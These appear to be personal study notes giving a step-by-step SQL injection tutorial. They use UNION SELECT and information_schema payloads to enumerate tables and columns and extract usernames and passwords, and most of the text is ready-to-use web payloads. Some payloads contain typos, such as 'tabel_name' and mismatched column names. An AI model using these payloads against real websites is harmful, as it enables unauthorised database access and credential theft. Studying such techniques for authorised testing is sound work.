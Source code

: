 
First you need to know the basics of SQL go here -->  [[SQL Basic Commands ( using mysql )]]
To get SQL injection automated see [[SQLmap (Incomplete)]]

# Basic :
`%27`     -     '
`%23` or `-- (space)` `;--` or `;/*` or `;//`    -     for commenting out
always give a space in textboxes / URL's after `--` to comment rest
`/**/` or `+` - for spaces
`%20` - for space ( mostly used in Burp requests )

# Step 1 : Checking If its vulnerable 
If you see a login page or any page link which loads a different page 
do this :

### Inject a Normal Statement
 Inject a normal statement which website expects. Ex : `1`

### Inject a True Logical statement
Inject the same but followed by a **TRUE SQL Logical INJECTION** 
Ex : 
```SQL
1'+AND+1=1--
```
if the website displays the same thing as first one that means it is executing your SQL and is *vulnerable*

### Inject a False Logical statement
Now use the same input as used  but instead give a **FALSE Logical INJECTION** like : 
Ex: ```
```SQL
1'+AND+1=0--
```
and if the website gives an error then it is vulnerable to SQL injection
and if website doesn't give an error its vulnerable to **Blind SQL injection check below**

# Step 2 : Finding out number of columns and       columns being displayed

### To find number of columns 
Use the `order By` command to find how many columns are present
Ex : 
```SQL
1'oRder+bY+1--
``` 
and keep changing the number until the website crashes and you know how many columns are present
Ex : If website crashes at `ordEr+bY+4` then it has 3 columns

### To check which all columns are being displayed
 We can use `union select` to find which all are being displayed 
 Ex : 
```SQL
 1'UniOn+selecT+1,2,3--  
``` 
 ( assuming it has 3 columns )
 and check where 1 or 2 or 3 are being displayed on your screen, because some columns are not set to be displayed on the user's screen
( assuming 2nd column is being displayed )

### <span style ="color: red">If It dosen't work :</span>
1. Its probably using a different database and not mySQL to confirm if it is still vulnerable you can do : `1'UnIon+sElect+NULL,NULL,NULL-- ` => and the website should work normal

2. to find out which SQL version it is running first find which column is being displayed by injecting **strings** : `1'UnIon+Select+"a","b","c"-- ` ( assuming "b" is being displayed somewhere ) do : `1'UnION+SeLect+NULL,(Use all 4 version() commands)-- ` =>
   refer to this [cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) 
   Ex : version() works so website is using **PostrgreSQL** , so use the cheatsheet and use those specific commands

# Step 3 : Finding all tables

**Note : There is a table called information_schema.tables which displays all the tables present in the database**

do : `1'Union+SeleCT+NULL,tabel_name,NULL+FrOm+information_schema.tables-- ` 
( Assuming we found a interesting table called **users** )

# Step 4 : Finding all Columns in that table
do :`1'UnIOn+select+NULL,column_name,NULL+from+information_schema.columns+Where+table_name='users'-- ` 
( Assuming we find 2 columns being `usernames` and `passwords` )
# Step 5 : reading the content
to see usernames : `1'Union+select+NULL,usernames,NULL+from+users`
to see passwords : `1'Union+select+NULL,password,NULL+from+users`

# <span style="color: orange">If Blind Injection found :</span>
Mostly injecting SQL statements will cause very minor change which is hard to notice
see **UDEMY-BUG-BOUNTY-ZSECURITY**

## <span style="color: orange">If TIME-BASED Injection found :</span>
Here unlike Blind there are little to none changes in the website





